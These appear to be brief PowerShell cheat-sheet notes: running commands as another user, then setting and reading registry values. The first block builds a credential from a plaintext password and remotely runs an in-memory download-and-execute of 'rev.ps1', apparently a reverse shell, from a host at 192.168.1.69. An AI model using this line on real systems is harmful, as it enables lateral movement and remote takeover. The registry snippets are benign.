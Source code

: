 # run powershell commands as another user with powershell
```powershell
$pass = ConvertTo-SecureString 'password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('.\user', $pass)
hostname
invoke-command -Computer ComputerHostname -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```

# powershell browse and edit registry
# powershell set registry values
```powershell
Set-ItemProperty -Path "HKLM:\Software\ContosoCompany" -Name "NoOfEmployees" -Value 823
Get-ItemProperty -Path "HKLM:\Software\ContosoCompany"
```
# powershell read registry values
can also change the powershell "directory" to the registry like "cd HKLM:\"
```powershell
cd HKLM:\SYSTEM\CurrentControlSet\Services\
```
